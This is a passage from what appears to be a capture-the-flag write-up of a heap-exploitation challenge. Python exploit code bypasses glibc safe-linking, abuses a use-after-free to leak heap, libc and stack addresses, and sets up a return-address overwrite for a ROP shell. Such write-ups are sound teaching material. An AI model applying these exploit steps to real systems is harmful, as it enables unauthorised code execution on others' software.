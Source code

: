 ![](07.png)

Since we are dealing with a libc version that features safe linking, we need two functions to mangle and demangle the pointers:

```py
def demangle(obfus_ptr: int) -> int:
    t = (obfus_ptr >> 12) ^ obfus_ptr
    return (t >> 24) ^ t

def mangle(target: int, chunk_addr: int) -> int:
    return target ^ (chunk_addr >> 12)
```

Mangling a pointer requires knowing the chunk address. Fortunately, to get a heap leak we just need to read chunk 2 and demangle the pointer:

```py
heap_leak = u64(view(2).ljust(8, b"\x00"))
log.success(f"{heap_leak = :#0x}")
heap_leak_demangled = demangle(heap_leak)
log.success(f"{heap_leak_demangled = :#0x}")
```

![](08.png)

Unfortunately, we have full RELRO so we can't overwrite the GOT. But, using the use after free vulnerability, we can force malloc to return
an arbitrary pointer, and using the view and edit functionalities we can get an arbitrary read and write. The end target is to overwrite the
return address on the stack. Since we already leaked libc, we can leak the contents of the `environ` pointer which points to the stack and is 
at a constant offset from `main`'s return address.

We can use the previously allocated chunks and edit chunk 1, writing the mangled `environ` pointer. Then we need to get the chunks back, and the
third one will be our controlled pointer. Since the `add message` functionality also writes something into the pointer, we can just send an empty string
to prevent this from happening. 

```py
edit(1, p64(mangle(libc_base + libc.sym.environ, heap_leak_demangled)))

add(0, b"AAAA")
add(0, b"AAAA")
add(0, b"")
stack_leak = u64(view(0).ljust(8, b"\x00"))
log.success(f"{stack_leak = :#0x}")
```

![](09.png)


Now that we have all leaks we need, we can force malloc to return the desired stack address and overwrite it with a ROP to shell.
